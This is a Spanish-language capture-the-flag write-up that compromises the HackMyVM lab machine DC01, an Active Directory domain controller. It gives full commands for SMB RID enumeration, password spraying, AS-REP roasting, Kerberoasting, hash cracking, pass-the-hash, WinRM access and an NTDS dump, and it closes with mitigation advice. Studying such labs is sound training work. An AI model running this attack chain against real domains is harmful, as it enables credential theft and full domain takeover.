






# 🧪 WriteUp - DC01 - (HackMyVM 🖥)



---
## 🎯 Planificación y Alcance

| Componente          | Detalle                                                                                                |
| ------------------- | ------------------------------------------------------------------------------------------------------ |
| MV Atacante         | Arch Linux (VMWare)                                                                                    |
| MV Objetivo         | DC01 (HackMyVM)                                                                                        |
| Modo de Red         | Adaptador Puente                                                                                       |
| Herramientas Usadas | `arp-scan`, `ping`, `nmap`, `NetExec`, `Impacket`, `SMBMap`, `ntp`, `Evil-WinRm`, `John`, `BloodHound` |
`NOTA: Tanto la IP de la MV Atacante como la de la MV Objetivo van variando debido a la diferente ubicación física a lo largo de la elaboración de este documento. El procedimiento no varía, el resultado es el mismo`.

---
## 🔍 Reconocimiento

Una vez arrancada la MV Objetivo `DC01`, vamos a proceder con el reconocimiento de su `IP` mediante el comando `sudo arp-scan -I eth1 --localnet`, sabiendo que la `MAC` del fabricante VirtualBox comienza por `08:00`.



Vamos a realizar una comprobación `ICMP` para verificar la conectividad, latencia y accesibilidad del host e identificamos el Sistema Operativo:



Podemos ver que tenemos conectividad con la máquina víctima y que se trata de un sistema Windows, `ttl=128`.

---
## 📡 Escaneo y Análisis de Vulnerabilidades

Efectuamos un escaneo con `Nmap` para realizar un primer reconocimiento de la máquina víctima:
`sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 192.168.0.32 -oG allPorts`



De los puertos abiertos vamos a pasarle un segundo escaneo de `Nmap` de vulnerabilidades y versiones de sistema:
`sudo nmap -p <open_ports> -scV 192.168.0.32 -oN targeted -oX targetedXML`




📖 **Parámetros:**
```bash
-p-: Escaneo completo de todos los puertos, del 1 al 65535.
--open: Escanea solamente puertos abiertos.
-p: Listar puertos específicos.
-sS: Stealth Scan, realiza un escaneo TCP SYN.
-sC: Uso de los scripts predeterminados del NSE (Nmap Scripting Engine).
-sV: Activa la detección de versiones.
-sCV: Igual a -sC y -sV.
--min-rate 5000: Mantiene una velocidad de envío de paquetes de al menos 5000 paquetes por segundo. Hace mucho ruido.
-n: Desactiva la resolución DNS inversa sobre las direcciones IP activas encontradas.
-Pn: Omite la etapa de descubrimiento de hosts (ping) y asume que el objetivo está encendido.
-vvv: Triple verbose. Información en tiempo real del escaneo.
-oG: Output en formato grepeable para poder filtrar.
-oN: Output normal en formato Nmap.
-oX: Output en formato XML.
```

Otra forma de verlo a modo reporte es con el formato `XML` por web, para ello nos levantamos un servidor http:




No olvidarse de cerrar el servidor `HTTP` una vez finalizado con `Ctrl+C`

---
📖 **Nota:**
Con el escaneo de `Nmap` se puede observar que se trata de un `Domain Controller (DC)`con`Kerberos`, un protocolo de autenticación de red seguro, que permite a usuarios y servicios demostrar su identidad mutuamente en una red insegura sin enviar contraseñas. Funciona por emisión de `tickets` temporales, siendo el método estándar de `Windows Active Directory`.
Por defecto, corre por el `puerto 88 TCP/UDP`.

También se puede observar el protocolo `LDAP (Lightweight Directory Access Protocol)`, protocolo de red estándar y abierto, utilizado para acceder y gestionar directorios centralizados de información. Permite autenticar usuarios y organizar datos de red de forma jerárquica, facilitando la administración de accesos en aplicaciones y servidores empresariales.

Otro factor a tener en cuenta, es el `puerto 445` por donde corre el protocolo `SMB (Server Message Block`, utilizado para compartir archivo e impresoras directamente sobre `TCP/IP`. Fundamental para la comunicación `cliente-servidor` en entornos Windows.

Y el `puerto 5985 WinRM` abierto, para la administración remota de Windows.

---

Vemos el dominio `SUPERDECODE.LOCAL` el cual añadimos a `/etc/hosts` para la resolución `DNS`


---
## ⚔ Explotación

Vamos a intentar explotar el puerto `445 SMB`, probamos a ver recursos compartidos sin necesidad de saber ni usuario ni contraseña accediendo como el usuario `guest`:

`netexec smb 192.168.0.25 -u 'guest' -p '' --shares`


Vemos que el recurso compartido `IPC$ (Inter-Process Communication)` tiene permisos de lectura, lo que significa que podremos enumerar usuarios.

---
📖 **Nota:**
El recurso compartido **IPC$** es un recurso compartido administrativo oculto en Windows, diseñado para facilitar la comunicación entre procesos de red para la administración remota, autenticación y transferencia de datos entre equipos. No comparte archivos, sino que permite la conexión temporal entre clientes y servidores.

---

Para esto, utilizamos:

`netexec smb 192.168.0.25 -u 'guest' -p '' --rid-brute`

📖 **Parámetros:**
```bash
--rid-brute: Opción que sirve para enumerar usuarios en un sistema WINDOWS remoto mediante fuerta bruta de los RIDs (Relative Identifiers).               
```


Ahora tenemos que filtrar esta lista de usuarios para mostrar solamente los usuarios, ya que te da más información.


Filtraremos por `SidTypeUser`, y para que solamente coja el usuario:

```bash
cat users.txt | grep 'SidTypeUser' | tr '\\' ' ' | awk '{print $7}' | wc -l
cat users.txt | grep 'SidTypeUser' | tr '\\' ' ' | awk '{print $7}' > filter_users.txt
```


📖 **Parámetros:**
```bash
grep: Filtramos únicamente los usuarios.
tr '\\' ' ': Escapamos la contrabarra para que la coja de forma literal y la sustituimos por un espacio pa separar el dominio del usuario.
awk '{print $7}': Nos quedamos con la séptima columna, los usuarios.
```

Vamos a probar un ataque de AS-REP Roasting con Impacket, es decir, a ver si encontramos usuarios vulnerables de la lista del AD con la opción "Do not require Kerberos preauthentication", para solicitar sus hashes y extraerlos, utilizando `GetNPUsers`.

`GetNPUsers SOUPEDECODE.LOCAL/ -no-pass -usersfile filter_users.txt -dc-ip 192.168.0.25`


Observando la lista completa, vemos que por esta vía no se puede atacar.

Vamos a probar a ver si algún usuario de la lista utiliza la misma contraseña que el usuario, lo cual sería un fallo grave de mala praxis.

`netexec smb 192.168.0.25 -u 'filter_users.txt' -p 'filter_users.txt' --no-bruteforce --continue-on-success`


📖 **Parámetros:**
```bash
--no-bruteforce: Para probar combinación 1 a 1 de Usuario/Contraseña, en vez de probar todas las contraseñas contra cada usuario.
--continue-on-success: Para que no se pare al encontrar una credencial válida y siga probando hasta finalizar la lista.
```

Efectivamente, el usuario `ybob317` utiliza la misma contraseña, vamos a guardarlo para tenerlo almacenado.

`grep "[+]" | tr '\\' ' ' | awk {print $7} > target_user.txt`


Podemos validar el usuario `ybob317` con `psexec`:
`psexec SOUPEDECODE.LOCAL\ybob317:ybob317@192.168.0.25`

Vemos un error de `STATUS_ACCESS_DENIED`, lo cual implica que las credenciales para el login fueron exitosas, pero no tiene permisos de administrador. De lo contrario daría un `STATUS_LOGON_FAILURE`.


O con `netexec`:
`netexec smb 192.168.0.25 -u 'ybob317' -p 'ybob317'`


Teniendo ya una vía de entrada, vamos a probar con un ataque de `Kerberoasting` a través del usuario `ybob317` mediante `GetUserSPNs`.

`GetUserSPNs SOUPEDECODE.LOCAL/ybob317:ybob317 -dc-ip 192.168.0.25 -request`


📖 **Parámetros:**
`-request: Para solicitar los tickets TGS (Ticket Granting Service) al DC.`

---
📖 **Nota:**
**GetNPUsers (AS-REP Roasting):**
Ataca a usuarios que **no requieren pre-autenticación** de Kerberos.
- **El objetivo:** Usuarios con la opción _"Do not require Kerberos preauthentication"_ marcada en AD.
- **Cómo funciona:** Envía una solicitud de ticket (AS-REQ) y el DC responde con un **AS-REP** que contiene una parte cifrada con la clave del usuario.
- **Ventaja:** No necesitas ninguna credencial previa (ni siquiera una cuenta de usuario válida, solo el nombre del usuario).
- **Uso común:** Fase inicial de enumeración para ganar acceso al dominio.

**GetUserSPNs (Kerberoasting):**
Ataca a cuentas de servicio que tienen un **Service Principal Name (SPN)** configurado.
- **El objetivo:** Cuentas de usuario que actúan como servicios (como SQL Server, IIS, etc.).
- **Cómo funciona:** Solicita un ticket de servicio (**TGS-REP**) para un SPN específico. El DC cifra el ticket usando el hash de la contraseña de la cuenta de servicio.
- **Ventaja:** Los hashes de tickets de servicio suelen ser de cuentas con contraseñas débiles o antiguas, y muchas veces tienen privilegios altos.
- **Requisito:** Necesitas **una cuenta del dominio** (usuario y contraseña válidos) para poder solicitar los tickets.
---

Vemos una lista de usuarios "Kerberoasteables" pero tenemos un problema con la sincronización de hora con el DC `(Clock skew too great)`, el cual hay que solucionar:
`sudo sntp -sS SOUPEDECODE.LOCAL`


---
📖 **Nota:**
Para realizar ataques como **Kerberoasting** o **AS-REP Roasting**, el reloj de la máquina atacante debe estar sincronizado con el del Controlador de Dominio.

**Kerberos** tiene un mecanismo de seguridad contra ataques de "reproducción" (_replay attacks_) que solo permite una diferencia de tiempo (habitualmente **5 minutos**) entre el cliente y el servidor. Si la hora está desfasada, el ticket que se reciba no será válido y no se podrá crackearlo ni usarlo.

Para asegurar el ataque, se puede desactivar la sincronización automática de tu máquina con `sudo timedatectl set-ntp false`

Si aun así no se consigue sincronizar la hora con el `DC` se puede intentar de forma manual:
Capturar la hora "oculta" con Tcpdump:
	Abrir una segunda terminal y dejar corriendo `tcpdump` para capturar el tráfico de **Kerberos**:
	`sudo tcpdump -i any -nn -As0 port 88`
Provocar el error:
	En la terminal principal, volver a ejecutar el comando de **GetUserSPNs**.
Buscar el "Timestamp" en la captura:
	En la terminal de `tcpdump`, aparecerá un montón de texto. Buscar una cadena que se parezca a una fecha (ej. `20231027153022Z`). Esa es la hora **UTC** del servidor.
Cambiar la hora manualmente:
	`sudo date -s "2023-10-27 15:30:22"`

📖 **Parámetros:**
```bash
-i any: Escuchar en todas las interfaces de red disponibles.
-nn: No resuelve nombres de dominio ni puertos (más rápido y limpio).
-A: Muestra los paquetes en formato ASCII.
-s0: Captura el paquete completo (sin recortarlo).
port 88: Para filtrar solo el tráfico de Kerberos.
```
---
Una vez sincronizado el reloj, volvemos a realizar el ataque:
`GetUserSPNs SOUPEDECODE.LOCAL/ybob317:ybob317 -dc-ip 192.168.0.25 -request`


Obtenemos los hashes de `svc`. De todos los hashes, el único que se pudo crackear, probando diferentes `wordlists` ha sido la de `file_svc` utilizando el `rockyou`.


`john --wordlist=/usr/share/wordlists/passwords/rockyou.txt hash_svc`


Nos guardamos la contraseña para un futuro:


---
## 💥 Post-Explotación `ybob317`

Vamos a ver de nuevo los recursos compartidos, esta vez del usuario `ybob317`:
`nxc smb 192.168.0.25 -u 'ybob317' -p 'ybob317' --shares`


Vemos una carpeta interesante `Users`, vamos a inspeccionarla con `smbmap` de forma recursiva:
`smbmap.py -H 192.168.0.25 -u ybob317 -p ybob317 -r`


Inspeccionamos los directorios del usuario `ybob317`:
`smbmap.py -H 192.168.0.25 -u ybob317 -p ybob317 -r Users/ybob317`


Inspeccionamos su `Escritorio`:
`smbmap.py -H 192.168.0.25 -u ybob317 -p ybob317 -r Users/ybob317/Desktop`


Y nos descargamos el archivo `user.txt`, donde obtenemos la primera `flag` del usuario:
`smbmap.py -H 192.168.0.25 -u ybob317 -p ybob317 --download Users/ybob317/Desktop/user.txt`


`Flag del usuario: 6bab1f09a7403980bfeb4c2b412be47b`

---
## ⚔ Explotación

Ahora ya podemos retornar por la vía de `file_svc:Password123!!` a ver que podemos sacar.
Verificamos su validez, volvemos a listar sus recursos compartidos y probamos a ver si se puede entrar por `winrm`.
```bash
nxc smb 192.168.0.25 -u 'file_svc' -p 'Password123!!'
nxc smb 192.168.0.25 -u 'file_svc' -p 'Password123!!' --shares
nxc winrm 192.168.0.25 -u 'file_svc' -p 'Password123!!'
```


Observamos que por `winrm` no tenemos acceso, pero hay un recurso `backup`, el cual tenemos permiso de lectura interesante. Profundizamos en este con `smbmap` de forma recursiva:
`smbmap -H 192.168.0.25 -u file_svc -p 'Password123!!' -r`


Vamos a ver lo que hay en `backup` y procedemos a descargarlo:
```bash
smbmap -H 192.168.0.25 -u file_svc -p 'Password123!!' -r backup/
smbmap -H 192.168.0.25 -u file_svc -p 'Password123!!' --download backup/backup_extract.txt
```


Vemos que el archivo contiene hashes `NTLM`:


Vamos a probar con un `Pass the Hash` con estos usuarios, dando exitoso `FileServer$`:
`nxc smb 192.168.0.25 -u 'FileServer$' -H 'e41da7e79a4c76dbd9cf79d1cb325559'`


---
📖 **Nota:**
El ataque **Pass-the-Hash (PtH)** es una técnica de **movimiento lateral** y robo de credenciales que permite a un atacante autenticarse en servidores o servicios remotos utilizando el **hash** de la contraseña de un usuario, en lugar de la contraseña en texto plano.
En entornos Windows, las contraseñas no se almacenan ni se envían por la red como texto claro, sino como una representación matemática llamada **hash NTLM**. Dado que el sistema de autenticación acepta este hash como prueba de identidad válida, el atacante no necesita descifrarlo: simplemente lo "pasa" al servicio para iniciar sesión.

---

Probamos a acceder con `winrm`:
`nxc winrm 192.168.0.25 -u 'FileServer$' -H 'e41da7e79a4c76dbd9cf79d1cb325559'`


Y tomamos el control:
`evil-winrm-py -i 192.168.0.25 -u 'FileServer$' -H 'e41da7e79a4c76dbd9cf79d1cb325559'`


---
## 💥 Post-Explotación `Administrator`

Mirando por los directorios, encontramos la `flag` de `Administrator`, retrocediendo desde el usuario `FileServer$` al directorio `Users` e inspeccionando `Administrator`, en su escritorio el archivo `root.txt`:


`Flag del administrador: a9564ebc3289b7a14551baf8ad5ec60a`

### :FasUpLong: Escalada de privilegios 

Vamos a `dumpear` el `NTDS` para la obtención de credenciales de Administrador.
El comando `--ntds` en **NetExec (nxc)** se utiliza para extraer (dumpear) la base de datos de Active Directory (`ntds.dit`) de un Controlador de Dominio (DC). Este archivo contiene los hashes `NTLM` de todos los usuarios del dominio:
`nxc smb 192.168.0.25 -u 'FileServer$' -H 'e41da7e79a4c76dbd9cf79d1cb325559' --ntds`


Filtramos para quedarnos una lista de usuarios y otra de sus hashes:


Realizamos un  `Pass the Hash` a `Administrator`:


Consiguiendo así entrar como el usuario administrador.

---
## Opcional

Se podría ver los privilegios asignados al usuario `FileServer$` e intentar explotar alguna vía de las habilitadas:
`whoami /priv`


Por otro lado, también se podría ver posibles vías utilizando `BloodHound`:


---
## 🧾 Informe Final

La máquina **DC01** representa un escenario clásico de escalada en Active Directory mal configurado. La cadena de ataque demuestra cómo un fallo de seguridad simple (usuario con la misma contraseña) puede ser el punto de apoyo necesario para pivotar hacia cuentas de servicio, robar hashes de alto valor y finalmente comprometer todo el dominio.

El uso de herramientas como **NetExec**, **Impacket** y **BloodHound** fue fundamental para mapear y explotar las relaciones de confianza del directorio activo.

### Recomendaciones de Seguridad

Para mitigar los vectores de ataque explotados en este laboratorio, se recomienda implementar las siguientes medidas correctivas en un entorno de producción:

| Hallazgo                                    | Recomendación                                                                                                                                      | Fase MITRE ATT&CK Mitigada    |
| ------------------------------------------- | -------------------------------------------------------------------------------------------------------------------------------------------------- | ----------------------------- |
| **Enumeración RID mediante SMB Anónimo**    | Deshabilitar el acceso de invitado a `IPC$` y restringir el acceso anónimo a SAM (Network access: Restrict anonymous).                             | Discovery (T1087)             |
| **Credenciales Débiles (Usuario=Password)** | Implementar políticas de contraseñas robustas y prohibir el uso del nombre de usuario en la contraseña.                                            | Credential Access (T1110)     |
| **Kerberoasting**                           | Utilizar **Cuentas de Servicio Administradas de Grupo (gMSA)** o rotar las contraseñas de cuentas de servicio periódicamente con alta complejidad. | Credential Access (T1558.003) |
| **Almacenamiento de Hashes en Texto Plano** | Eliminar archivos de respaldo de hashes en recursos compartidos. Utilizar LAPS para gestionar contraseñas de administrador local.                  | Credential Access (T1003)     |
| **Pass-The-Hash (Cuenta de Máquina)**       | Restringir el acceso de cuentas de máquina a servicios interactivos (WinRM) y aplicar el principio de mínimo privilegio.                           | Lateral Movement (T1550.002)  |
| **Volcado de NTDS.dit**                     | Monitorizar eventos de seguridad (ID 4662) y aplicar soluciones EDR que bloqueen el acceso a `ntds.dit`.                                           | Credential Access (T1003.003) |


